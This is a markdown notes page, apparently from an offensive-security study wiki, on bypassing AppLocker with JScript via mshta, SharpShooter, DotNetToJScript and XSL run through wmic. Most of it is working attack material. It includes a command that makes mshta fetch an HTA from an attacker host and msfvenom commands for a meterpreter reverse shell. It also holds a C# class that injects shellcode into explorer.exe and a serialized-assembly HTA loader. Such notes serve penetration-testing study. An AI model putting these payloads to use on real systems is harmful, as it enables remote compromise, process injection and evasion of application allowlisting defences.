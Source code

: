 ```yaml
---
title: Jscript AppLocker bypass
tags:
  - breach
  - operations
  - applocker
  - bypass
  - jscript
  - allowlist
  - whitelist
---
```


## Microsoft HTML Applications

**Microsoft HTML Applications (MSHTA)** is a vector for client-side attacks to
execute **JScript** payloads, allowing us to execute `.hta` files with the
`mshta.exe` application. Here's an example payload so we can better understand
its structure:

```html
<html>
  <head>
    <script language="JScript">
      var shell = new ActiveXObject("WScript.Shell")
      var res = shell.Run("cmd.exe")
    </script>
  </head>
  <body>
    <script language="JScript">
      self.close()
    </script>
  </body>
</html>
```

Given the structure of this payload, we can see how we would go about smuggling
our malicious JScript. Here's an example invocation of this payload using
`mshta.exe`:

```powershell
$lHost = ${LHOST}
$lPort = ${LPORT}
. (Get-Command -Name "mshta.exe").Source "http://${lHost}:${lPort}/shell.hta"
```

### MSHTA and SharpShooter

Using [SharpShooter](https://github.com/X0RW3LL/SharpShooter/tree/master) we can
generate an `.hta` payload to deliver a **meterpreter** reverse shell payload.
We invoke the following to generate our meterpreter reverse shell payload:

```bash
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=${LHOST} LPORT=${LPORT} -f raw -o shell.txt
```

And we can generate our **SharpShooter** `.hta` payload by invoking the
following:

```bash
python ~/opt/SharpShooter/SharpShooter.py --payload hta --dotnetver 4 --stageless --rawscfile shell.txt --output shell
```

### MSHTA and DotNetToJScript

Using [DotNetToJscript](https://github.com/tyranid/DotNetToJScript), we can
generate an `.hta` payload to deliver a `meterpreter` reverse shell payload that
uses process injection. We start by building a **.NET Framework** assembly with
the following C# .NET code:

```csharp
using System;
using System.Diagnostics;
using System.Runtime.InteropServices;

public class TestClass
{
    [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
    static extern IntPtr OpenProcess(
    uint processAccess,
    bool bInheritHandle,
    int processId
    );

    [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
    static extern IntPtr VirtualAllocEx(
        IntPtr hProcess,
        IntPtr lpAddress,
        uint dwSize,
        uint flAllocationType,
        uint flProtect
    );

    [DllImport("kernel32.dll")]
    static extern bool WriteProcessMemory(
        IntPtr hProcess,
        IntPtr lpBaseAddress,
        byte[] lpBuffer,
        Int32 nSize,
        out IntPtr lpNumberOfBytesWritten
    );

    [DllImport("kernel32.dll")]
    static extern IntPtr CreateRemoteThread(
        IntPtr hProcess,
        IntPtr lpThreadAttributes,
        uint dwStackSize,
        IntPtr lpStartAddress,
        IntPtr lpParameter,
        uint dwCreationFlags,
        IntPtr lpThreadId
    );

    public TestClass()
    {
        int explorerId = Process.GetProcessesByName("explorer")[0].Id;
        IntPtr hProcess = OpenProcess(0x001F0FFF, false, explorerId);
        IntPtr addr =
            VirtualAllocEx(hProcess, IntPtr.Zero, 0x1000, 0x3000, 0x40);
        byte[] buf = new byte[854] {
            0xfc, 0x48, 0x83, 0xe4, 0xf0, 0xe8, 0xcc, 0x00, 0x00, 0x00, 0x41,
            // ...
            0xc2, 0xf0, 0xb5, 0xa2, 0x56, 0xff, 0xd5
        };
        _ = WriteProcessMemory(hProcess, addr, buf, buf.Length, out _);
        _ = CreateRemoteThread(
            hProcess,
            IntPtr.Zero,
            0,
            addr,
            IntPtr.Zero,
            0,
            IntPtr.Zero
        );
    }
}
```

We invoke the following to use **DotNetToJScript** to generate a JScript payload
that will invoke the code within our process injection assembly:

```powershell
DotNetToJScript.exe --lang=JScript -o="pwn.js" "ExampleAssembly.dll"
```

We can test that our `pwn.js` payload works by invoking:

```powershell
. (Get-Command -Name "wscript.exe").Source .\pwn.js
```

To reliably execute our JScript payload we use
[uglify-js](https://www.npmjs.com/package/uglify-js) to minify the payload -
here's an example invocation:

```bash
uglifyjs ./pwn.js > uglypwn.js
```

Finally, we construct our malicious `.hta` payload that contains our minified
DotNetToJScript JScript payload. This final payload will execute using MSHTA,
delivering a JScript payload that loads our assembly to conduct process
injection and execute a meterpreter reverse shell payload:

<!-- prettier-ignore-start -->
```html
<HTML><HEAD></HEAD><BODY><script language="javascript">function setversion(){}function debug(s){}function base64ToStream(b){var enc=new ActiveXObject("System.Text.ASCIIEncoding");var length=enc.GetByteCount_2(b);var ba=enc.GetBytes_4(b);var transform=new ActiveXObject("System.Security.Cryptography.FromBase64Transform");ba=transform.TransformFinalBlock(ba,0,length);var ms=new ActiveXObject("System.IO.MemoryStream");ms.Write(ba,0,length/4*3);ms.Position=0;return ms}var serialized_obj="${INSERT_SERIALIZED_ASSEMBLY_HERE}";var entry_class="TestClass";try{setversion();var stm=base64ToStream(serialized_obj);var fmt=new ActiveXObject("System.Runtime.Serialization.Formatters.Binary.BinaryFormatter");var al=new ActiveXObject("System.Collections.ArrayList");var d=fmt.Deserialize_2(stm);al.Add(undefined);var o=d.DynamicInvoke(al.ToArray()).CreateInstance(entry_class)}catch(e){debug(e.message)}</script><script language="vbscript">self.close</script></body></html>
```
<!-- prettier-ignore-end -->

## XSL

We can also gain arbitrary JScript code executing using **Extensible Stylesheet
Language (XSL)** documents. Here's an example `.xsl` document to gain JScript
code execution:

```xml
<?xml version='1.0'?>
<stylesheet version="1.0"
xmlns="http://www.w3.org/1999/XSL/Transform"
xmlns:ms="urn:schemas-microsoft-com:xslt"
xmlns:user="http://mycompany.com/mynamespace">

<output method="text"/>
	<ms:script implements-prefix="user" language="JScript">
		<![CDATA[
			var r = new ActiveXObject("WScript.Shell");
			r.Run("cmd.exe");
		]]>
	</ms:script>
</stylesheet>
```

We can execute this payload using the **Windows Management Instrumentation
(WMI)** command line application, `wmic`. Here's an example invocation to
execute our `.xsl` file:

```powershell
Start-Process `
	-FilePath (Get-Command -Name "wmic").Source `
	-ArgumentList @("os", "get", '/format:"C:\Tools\shell.xsl"')
```

## Related pages

- [[bypassing-application-whitelisting|Bypassing application whitelisting]]
